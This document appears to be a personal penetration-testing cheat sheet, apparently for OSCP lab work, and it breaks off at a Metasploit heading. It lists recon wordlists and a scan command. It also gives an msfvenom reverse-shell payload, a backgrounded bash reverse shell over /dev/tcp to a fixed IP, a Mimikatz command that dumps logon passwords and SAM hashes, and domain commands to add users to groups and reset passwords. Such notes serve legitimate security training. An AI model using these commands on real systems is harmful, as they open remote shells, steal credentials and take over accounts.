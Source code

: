 ### Search terms for grep:
```bash
pass
key
user
secr
pwd
```
### Good detailed directory busting wordlist:
```bash
/usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
```
### Unzip .tar:
``` bash
tar -xf
```

### Debugging curl command:
```bash
curl -sSik
```

### Autorecon:
```bash
sudo ~/.local/bin/autorecon -v 192.168.217.151 --nmap-append=-A
```

### API endpoint wordlist:
```bash
/usr/share/seclists/Discovery/Web-Content/common-api-endpoints-mazen160.txt
```

### Is user admin in Windows:
```powershell
([Security.Principal.WindowsPrincipal] [Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator)
```

### OSCP Windows 64-bit payload:
```bash
sudo msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.176 LPORT=4444 -f exe -o shelle.exe
```
### Linux background reverse shell using screen:
```bash
screen -md bash -c 'bash -i >/dev/tcp/10.1.1.20/443 2>&1 0<&1'
```
### Mimikatz all-in-one command:
```powershell
.\mimi.exe "privilege::debug" "sekurlsa::logonpasswords" "lsadump::sam" "exit"
```
### Windows abuse functions:
```powershell
# Add user to group:
net group "Management Department" <user> /add /domain

# Delete user:
net group "Management Department" <user> /del /domain

# Change user password:
net user <username> <newpassword> /domain
```
### MSF/Metasploit $env error fix: